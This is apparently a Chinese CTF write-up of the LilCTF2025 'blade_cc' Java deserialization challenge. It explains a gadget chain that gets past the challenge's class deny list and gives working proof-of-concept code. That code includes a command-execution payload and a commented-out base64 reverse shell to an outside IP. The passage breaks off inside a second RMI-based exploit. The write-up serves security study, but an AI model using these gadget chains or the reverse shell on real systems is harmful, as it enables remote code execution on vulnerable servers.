---
title: "LilCTF2025 blade_cc"
date: 2026-03-09T16:01:06+08:00
summary: "复现一下java题"
url: "/posts/Java题目之LilCTF2025-blade-cc/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

题目环境在GZ平台

https://gz.imxbt.cn/games/30/challenges#1066-blade_cc

```java
万恶的n1ght，留出了一个反序列化入口，但是他做了黑名单和不出网，你能想办法完成这个挑战吗？
```

附件下下来看看

发现不是Spring Boot fat jar，jadx反编译出来没有lib依赖目录

后面问了疏狂哥给学了一下处理和保存题目jar

直接开个项目把题目附件jar丢到lib目录下然后添加为库



先看一下依赖



在META-INF\maven\目录各个依赖jar的pom.properties中可以看到版本号

commons-collections版本是3.2.1，打CC链大差不差

而且这里还是用的另一个框架Blade MVC 框架，后面可以打内存马用

# 代码分析

看看控制器代码IndexController

```java
package com.n1ght.controller;

import com.hellokaton.blade.annotation.Path;
import com.hellokaton.blade.annotation.route.GET;
import com.hellokaton.blade.annotation.route.POST;
import com.hellokaton.blade.mvc.http.Request;
import com.hellokaton.blade.server.NettyHttpConst;
import com.n1ght.util.N1ghtObjectInputStream;
import io.netty.buffer.ByteBuf;
import java.io.ByteArrayInputStream;
import java.io.IOException;

@Path
/* loaded from: app.jar:com/n1ght/controller/IndexController.class */
public class IndexController {
    @GET({NettyHttpConst.SLASH})
    public String index() throws Exception {
        return "index.html";
    }

    @POST({"/challenge"})
    public String challenge(Request request) throws IOException, ClassNotFoundException {
        ByteBuf body = request.body();
        byte[] bytes = new byte[body.readableBytes()];
        body.getBytes(body.readerIndex(), bytes);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        new N1ghtObjectInputStream(byteArrayInputStream).readObject();
        return "index.html";
    }
}

```

在/challenge路由下用自定义的 `N1ghtObjectInputStream` 对传入的内容进行readObject反序列化

看看封装的N1ghtObjectInputStream

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.n1ght.util;

import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;

public class N1ghtObjectInputStream extends ObjectInputStream {
    public N1ghtObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();
        String[] denyClasses = new String[]{"java.net.InetAddress", "sun.rmi.transport.tcp.TCPTransport", "sun.rmi.transport.tcp.TCPEndpoint", "sun.rmi.transport.LiveRef", "sun.rmi.server.UnicastServerRef", "sun.rmi.server.UnicastRemoteObject", "org.apache.commons.collections.map.TransformedMap", "org.apache.commons.collections.functors.ChainedTransformer", "org.apache.commons.collections.functors.InstantiateTransformer", "org.apache.commons.collections.map.LazyMap", "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter", "org.apache.commons.collections.functors.ConstantTransformer", "org.apache.commons.collections.functors.MapTransformer", "org.apache.commons.collections.functors.FactoryTransformer", "org.apache.commons.collections.functors.InstantiateFactory", "org.apache.commons.collections.keyvalue.TiedMapEntry", "javax.management.BadAttributeValueExpException", "org.apache.commons.collections.map.DefaultedMap", "org.apache.commons.collections.bag.TreeBag", "org.apache.commons.collections.comparators.TransformingComparator", "org.apache.commons.collections.functors.TransformerClosure", "java.util.Hashtable", "java.util.HashMap", "java.net.URL", "com.sun.rowset.JdbcRowSetImpl", "java.security.SignedObject"};

        for(String denyClass : denyClasses) {
            if (className.startsWith(denyClass)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }

        return super.resolveClass(desc);
    }
}
```

反序列化readObject还是调用的父类的操作，但是多了一个黑名单：

禁用了RMI 远程调用链，CC链核心利用类，Hashtable，HashMap，LazyMap这些触发类也禁了，估计是要挖掘新的CC链子吧

# 1. TransformedList触发transform链子分析

参考Night师傅的文章：https://www.n1ght.cn/2024/04/17/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9Ecommons-collections-TransformedList%E8%A7%A6%E5%8F%91transform/

是用的List去触发transform的

首先是用EventListenerList 去触发任意toString ：https://wanth3f1ag.top/2025/12/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BEventListenerList%E8%A7%A6%E5%8F%91%E4%BB%BB%E6%84%8FtoString/?highlight=eventlistenerlist

## EventListenerList 触发 toString

### StringBuilder#append



来到里面的String.valueOf()

### String.valueOf()


这里的话就能调用到任意toString了

触发到CodeSigner的toString方法

### CodeSigner#toString()

```java
    public String toString() {
        StringBuffer sb = new StringBuffer();
        sb.append("(");
        sb.append("Signer: " + signerCertPath.getCertificates().get(0));
        if (timestamp != null) {
            sb.append("timestamp: " + timestamp);
        }
        sb.append(")");
        return sb.toString();
    }
```

`signerCertPath.getCertificates()`用于获取证书路径中的 **证书列表**



getCertificates函数返回值是是LIst类型的，并且调用了signerCertPath的get(0) ，可以用LazyList的get()

## LazyList#get()



`this.factory.create();`这里factory是可控的，我们可以用`new ConstantFactory(chainedTransformer)`去固定返回一个iConstant，跟ConstantTransformer用法是一样的

关注到有一行`this.getList().set(index, object);`

```java
    protected List getList() {
        return (List) getCollection();
    }
    protected Collection getCollection() {
        return collection;
    }
```

会获取Collection类型的对象强制转化成List类型并调用set方法，然后我们用的是TransformedList

```java
    public Object set(int index, Object object) {
        object = this.transform(object);
        return this.getList().set(index, object);
    }
    protected Object transform(Object object) {
        return this.transformer.transform(object);
    }
```

最后就进入了InvokerTransform的transform

这里获取 Unsafe 实例，方便等会篡改对象内存布局，便于构造 CodeSigner 对象

```java
Field field = Unsafe.class.getDeclaredField("theUnsafe");
field.setAccessible(true);
Unsafe unsafe = (Unsafe) field.get((Object) null);
X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), lazylist);
Object o1 = unsafe.allocateInstance(CodeSigner.class);
unsafe.putObject(o1, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), o);
```

所以最终的链子就是

```java
EventListenerList触发任意toString()->
    CodeSigner#toString()->
    	LazyList#get()->
    		TransformedList#set()->
    			TransformedCollection#transform(java.lang.Object)->
    				InvokerTransform#transform()
```

# Agent hook+测试POC

由于 CertPath 重写了 writeReplace 导致序列化异常，需要用Java agent 进行 hook

```java
package com.example.Agent;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.Instrumentation;
import java.security.ProtectionDomain;

public class RemoveReplaceTransformer implements ClassFileTransformer {

    public static void premain(String agentArgs, Instrumentation inst) {
        inst.addTransformer(new RemoveReplaceTransformer());
    }

    @Override
    public byte[] transform(ClassLoader loader, String className,
                            Class<?> classBeingRedefined,
                            ProtectionDomain protectionDomain,
                            byte[] classfileBuffer) {
        if ("java/security/cert/CertPath".equals(className)) {
            try {
                System.out.println("[Agent] Patching CertPath...");
                ClassPool pool = ClassPool.getDefault();
                CtClass ctClass = pool.get("java.security.cert.CertPath");

                CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
                ctClass.removeMethod(writeReplace);

                byte[] modifiedClass = ctClass.toBytecode();
                ctClass.detach();

                System.out.println("[Agent] Successfully removed writeReplace method");
                return modifiedClass;
            } catch (Exception e) {
                System.err.println("[Agent] Failed to modify CertPath:");
                e.printStackTrace();
            }
        }
        return null;
    }
}
```

然后写一下pom.xml

记得用阿里云的库，不然一直打包失败，ssl证书过不去

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <groupId>com.example</groupId>
  <artifactId>blade_cc</artifactId>
  <version>1.0-SNAPSHOT</version>
  <packaging>jar</packaging>

  <name>blade_cc</name>
  <url>http://maven.apache.org</url>

  <dependencies>
    <dependency>
      <groupId>commons-collections</groupId>
      <artifactId>commons-collections</artifactId>
      <version>3.2.1</version>
    </dependency>
    <dependency>
      <groupId>junit</groupId>
      <artifactId>junit</artifactId>
      <version>3.8.1</version>
      <scope>test</scope>
    </dependency>
    <dependency>
      <groupId>org.javassist</groupId>
      <artifactId>javassist</artifactId>
      <version>3.29.2-GA</version>
    </dependency>
  </dependencies>
  <repositories>
    <repository>
      <id>aliyun</id>
      <name>Aliyun Maven Repository</name>
      <url>https://maven.aliyun.com/repository/public</url>
      <releases>
        <enabled>true</enabled>
      </releases>
      <snapshots>
        <enabled>true</enabled>
      </snapshots>
    </repository>
  </repositories>

  <pluginRepositories>
    <pluginRepository>
      <id>aliyun</id>
      <name>Aliyun Plugin Repository</name>
      <url>https://maven.aliyun.com/repository/public</url>
      <releases>
        <enabled>true</enabled>
      </releases>
      <snapshots>
        <enabled>true</enabled>
      </snapshots>
    </pluginRepository>
  </pluginRepositories>
  <build>
    <plugins>
      <plugin>
        <groupId>org.apache.maven.plugins</groupId>
        <artifactId>maven-jar-plugin</artifactId>
        <configuration>
          <archive>
            <manifestEntries>
              <!-- 指定 premain 方法所在类 -->
              <Premain-Class>com.example.Agent.RemoveReplaceTransformer</Premain-Class>
              <Can-Redefine-Classes>true</Can-Redefine-Classes>
              <Can-Retransform-Classes>true</Can-Retransform-Classes>
            </manifestEntries>
          </archive>
        </configuration>
      </plugin>
    </plugins>
  </build>
  <properties>
    <maven.compiler.source>8</maven.compiler.source>
    <maven.compiler.target>8</maven.compiler.target>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
  </properties>
</project>

```

`mvn clean package`打包成 jar 包，然后点击 IDEA 顶部菜单栏的 `Run` → `Edit Configurations...`，在`VM options`输入框中添加

```java
-javaagent:"E:\java\CTFProjects\LilCTF2025\blade_cc\target\agent-1.0-SNAPSHOT.jar"
```



然后写poc

## POC

```java
package com.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.list.LazyList;
import org.apache.commons.collections.list.TransformedList;

import sun.misc.Unsafe;
import sun.security.provider.certpath.X509CertPath;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.CodeSigner;
import java.util.*;

public class POC {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};

        //实例化Runtime对象并调用exec方法执行命令
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
                //反弹shell的命令
                //new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        ArrayList<Object> list = new ArrayList<>();
        list.add(null);
        List transformedList = TransformedList.decorate(list,chainedTransformer);

        List lazylist = LazyList.decorate(transformedList,new ConstantFactory(chainedTransformer));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get((Object) null);
        X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), lazylist);
        Object o1 = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(o1, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), o);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();

        //从UndoManager父类CompoundEdit的edits中取出Vector对象，并将恶意类通过add添加
        Vector vector = (Vector) getFieldValue(undoManager,"edits");
        vector.add(o1);

        unsafe.putObject(eventListenerList,unsafe.objectFieldOffset(eventListenerList.getClass().getDeclaredField("listenerList")),new Object[]{InternalError.class, undoManager});

        //避免提前触发
        setFieldValue(chainedTransformer,"iTransformers",transformers);
        String poc = serialize(eventListenerList);
        System.out.println(poc);
        unserialize(poc);

    }
    //定义序列化操作
    public static String serialize(Object object) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(object);
        oos.close();
        String poc = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return poc;
    }

    //定义反序列化操作,提供base64后的字节码，进行反序列化
    public static void unserialize(String poc) throws Exception{
        byte[] bytes = Base64.getDecoder().decode(poc);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(byteArrayInputStream);
        ois.readObject();
    }
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
        Field field = object.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object, value);
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception{
        final Field f = getField (obj.getClass (), fieldName );
        return f.get (obj);
    }
    public static Field getField( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if (field != null)
                field.setAccessible(true);
            else if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        } catch (NoSuchFieldException e) {
            if (!clazz.getSuperclass().equals(Object.class)) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```



然后我们回到题目

```java
String[] denyClasses = new String[]{"java.net.InetAddress", "sun.rmi.transport.tcp.TCPTransport", "sun.rmi.transport.tcp.TCPEndpoint", "sun.rmi.transport.LiveRef", "sun.rmi.server.UnicastServerRef", "sun.rmi.server.UnicastRemoteObject", "org.apache.commons.collections.map.TransformedMap", "org.apache.commons.collections.functors.ChainedTransformer", "org.apache.commons.collections.functors.InstantiateTransformer", "org.apache.commons.collections.map.LazyMap", "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter", "org.apache.commons.collections.functors.ConstantTransformer", "org.apache.commons.collections.functors.MapTransformer", "org.apache.commons.collections.functors.FactoryTransformer", "org.apache.commons.collections.functors.InstantiateFactory", "org.apache.commons.collections.keyvalue.TiedMapEntry", "javax.management.BadAttributeValueExpException", "org.apache.commons.collections.map.DefaultedMap", "org.apache.commons.collections.bag.TreeBag", "org.apache.commons.collections.comparators.TransformingComparator", "org.apache.commons.collections.functors.TransformerClosure", "java.util.Hashtable", "java.util.HashMap", "java.net.URL", "com.sun.rowset.JdbcRowSetImpl", "java.security.SignedObject"};

```

可以打rmi二次反序列化

# 2. CC链触发rmi二次反序列化

参考包师傅的文章：https://baozongwi.xyz/p/java-secondary-deserialization/#rmiconnector

在RMIConnector#findRMIServerJRMP()中

## RMIConnector#findRMIServerJRMP()

```java
    private RMIServer findRMIServerJRMP(String base64, Map<String, ?> env, boolean isIiop)
        throws IOException {
        // could forbid "iiop:" URL here -- but do we need to?
        final byte[] serialized;
        try {
            serialized = base64ToByteArray(base64);
        } catch (IllegalArgumentException e) {
            throw new MalformedURLException("Bad BASE64 encoding: " +
                    e.getMessage());
        }
        final ByteArrayInputStream bin = new ByteArrayInputStream(serialized);

        final ClassLoader loader = EnvHelp.resolveClientClassLoader(env);
        final ObjectInputStream oin =
                (loader == null) ?
                    new ObjectInputStream(bin) :
                    new ObjectInputStreamWithLoader(bin, loader);
        final Object stub;
        try {
            stub = oin.readObject();
        } catch (ClassNotFoundException e) {
            throw new MalformedURLException("Class not found: " + e);
        }
        return (RMIServer)stub;
    }
```

先进行Base64解码，然后包装成数组，最后进行反序列化readObejct

回溯一下哪里调用了findRMIServerJRMP

## RMIConnector#findRMIServer()

```java
    private RMIServer findRMIServer(JMXServiceURL directoryURL,
            Map<String, Object> environment)
            throws NamingException, IOException {
        final boolean isIiop = RMIConnectorServer.isIiopURL(directoryURL,true);
        if (isIiop) {
            // Make sure java.naming.corba.orb is in the Map.
            environment.put(EnvHelp.DEFAULT_ORB,resolveOrb(environment));
        }

        String path = directoryURL.getURLPath();
        int end = path.indexOf(';');
        if (end < 0) end = path.length();
        if (path.startsWith("/jndi/"))
            return findRMIServerJNDI(path.substring(6,end), environment, isIiop);
        else if (path.startsWith("/stub/"))
            return findRMIServerJRMP(path.substring(6,end), environment, isIiop);
        else if (path.startsWith("/ior/")) {
            if (!IIOPHelper.isAvailable())
                throw new IOException("iiop protocol not available");
            return findRMIServerIIOP(path.substring(5,end), environment, isIiop);
        } else {
            final String msg = "URL path must begin with /jndi/ or /stub/ " +
                    "or /ior/: " + path;
            throw new MalformedURLException(msg);
        }
    }
```

当传入的path是`/stub/`开头的时候就会调用到findRMIServerJRMP，path就是需要传入的base64编码

继续回溯调用findRMIServer，找到了两个







这里doStart方法是protected修饰的，没法整，只能调用connect方法，但是这个很难去调用，所以这个二次反序列化只能用CC链InvokerTransformer 去调用

## CC6调用rmi二次反序列化

```java
public static void run(String base64) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        Transformer fakeConnect = new ConstantTransformer(1);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, fakeConnect);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);
        HashMap<Object, Object> hashMap1 = new HashMap<>();
        hashMap1.put(tiedMapEntry, "2");
        lazyMap.remove(rmiConnector);

        setFieldValue(lazyMap, "factory", new InvokerTransformer("connect", null, null));

        byte[] serialize = serialize(hashMap1);
        unserialize(serialize);
    }
```

但是这里触发InvokerTransformer的话还是需要用到前面的TransformedList触发链

整合一下写个poc

这里的话还是用CC3的类加载字节码方便些

# 出网POC

```java
package com.example;

import com.n1ght.util.N1ghtObjectInputStream;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.list.LazyList;
import org.apache.commons.collections.list.TransformedList;

import org.apache.commons.collections.map.LazyMap;
import sun.misc.Unsafe;
import sun.security.provider.certpath.X509CertPath;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.CodeSigner;
import java.util.*;

public class POC {
    public static void main(String[] args) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+get_payload());
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        ArrayList<Object> list = new ArrayList<>();
        list.add(null);
        List transformedList = TransformedList.decorate(list,invokerTransformer);

        List lazylist = LazyList.decorate(transformedList,new ConstantFactory(rmiConnector));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get((Object) null);
        X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), lazylist);
        Object o1 = unsafe.allocateInstance(CodeSigner.class);
